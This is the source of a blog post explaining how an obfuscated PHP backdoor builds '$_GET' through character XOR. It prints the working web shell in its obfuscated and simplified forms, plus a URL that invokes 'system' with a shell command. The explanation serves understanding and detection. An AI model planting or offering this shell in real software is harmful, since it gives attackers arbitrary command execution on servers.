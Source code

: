 ```yaml
---
layout: post
title:  "Dissecting Non-Alphanumeric PHP Backdoor"
date:   2021-09-24 09:17:08 +0100
tags: php backdoor
---
```

# Non-Alphanumeric PHP Backdoor

<br>I found this non-alphanumeric PHP backdoor on the interwebs and thought it was interesting so here I'll try explaining how it works
{% highlight php linenos %}
<?php
$_="{"; 
$_=($_^"<").($_^">;").($_^"/");
?>
<?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
{% endhighlight %}

<br>After renaming the variable and beautifying the code, I ended up with this
{% highlight php linenos %}
<?php
$a = ("{" ^ "<") . ("{" ^ ">") . ("{" ^ "/");
echo ${"_$a"}["_"]( ${"_$a"}["__"] );
?>
{% endhighlight %}

<br>We can see that it's using the bitwise xor operator on some characters and whenever you xor two characters the following happens

| Value #1     | Operation         | Value #2 |
|:-------------|:-----------------:|:---------|
| {            | ^                 | <        |
| {            | ^                 | >        |
| {            | ^                 | /        |

First, the characters get converted to their ASCII equivalent 

| Value #1     | Operation         | Value #2 |
|:-------------|:-----------------:|:---------|
| 123          | ^                 | 60       |
| 123          | ^                 | 62       |
| 123          | ^                 | 47       |

Then the ASCIIs get converted to binary 

| Value #1     | Operation         | Value #2 |
|:-------------|:-----------------:|:---------|
| 1111011      | ^                 | 111100   |
| 1111011      | ^                 | 111110   |
| 1111011      | ^                 | 101111   |

and finally they get xor-ed

| Operation        | Binary  | ASCII | Plaintext |
|------------------|---------|-------|-----------|
| 1111011 ^ 111100 | 1000111 | 71    | G         |
| 1111011 ^ 111110 | 1000101 | 69    | E         |
| 1111011 ^ 101111 | 1010100 | 84    | T         |

Add this to the orignial code and we get
{% highlight php linenos %}
<?php
$a = "G" . "E" . "T";
echo ${"_$a"}["_"]( ${"_$a"}["__"] );
?>
{% endhighlight %}
<br>Or simplified
{% highlight php linenos %}
<?php
echo $_GET["_"]($_GET["__"]);
?>
{% endhighlight %}
<br>The backdoor can later on be accessed like this
{% highlight linenos %}
http://192.168.1.1/backdoor.php?_=system&__=ls -la
{% endhighlight %}
